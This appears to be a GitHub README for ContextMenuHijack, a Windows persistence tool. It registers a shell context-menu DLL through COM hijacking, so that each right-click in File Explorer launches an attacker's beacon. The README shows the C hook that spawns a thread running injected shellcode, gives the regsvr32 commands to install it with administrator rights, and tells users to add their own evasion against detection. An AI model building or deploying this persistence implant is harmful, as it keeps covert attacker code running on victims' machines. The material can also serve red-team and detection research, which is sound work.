 # ContextMenuHijack

This original idea that inspired me is from [@NinjaParanoid](https://twitter.com/NinjaParanoid) :

[![Video](https://user-images.githubusercontent.com/75935486/212143342-bda8da88-b076-488f-a3c2-126a4875c2c1.png)](https://www.youtube.com/watch?v=SwdmijpSjjA&ab_channel=ChetanNayak)


[ContextMenuHijack](https://github.com/RistBS/ContextMenuHijack) is a simple persistence technique that use COM hijacking based on human behavior, when you right click on a file/folder in the File Explorer to open the Context Menu, it executes at the same time the beacon we specified.
```c
IFACEMETHODIMP FileContextMenuExt::Initialize( LPCITEMIDLIST pidlFolder, LPDATAOBJECT pDataObj, HKEY hKeyProgID ) {
    DWORD tid = NULL;
    CreateThread(NULL, 1024 * 1024, (LPTHREAD_START_ROUTINE)InjectShc, NULL, 0, &tid);

    if (NULL == pDataObj) {
	if (pidlFolder != NULL) {
	}
        return S_OK;
    }
    return S_OK;
}
```

### Usage

You just have to load the solution file (.sln) and build it. It's important to know that you need **adminstrator privileges** to use this persistence technique. Once you have done all of this, you just have to register the DLL file in the registry with `regsvr32`:

```powershell
regsvr32 "C:\path\to\ContextMenuHijack.dll"
```

> if you want to uninstall it just use `/u` flag
```powershell
regsvr32 /u "C:\path\to\ContextMenuHijack.dll"
```

- this technique can be easily detected from the thread stack of `explorer.exe`, it is up to you to use your own evasion tradecraft 
![image](https://user-images.githubusercontent.com/75935486/212399032-3249579d-fff5-42e7-b18b-b3e7d13efaad.png)


# Credits

- https://github.com/rikka0w0/ExplorerContextMenuTweaker
- https://learn.microsoft.com/en-us/windows/win32/shell/how-to-implement-the-icontextmenu-interface?redirectedfrom=MSDN
- https://www.codeproject.com/Articles/441/The-Complete-Idiot-s-Guide-to-Writing-Shell-Extens
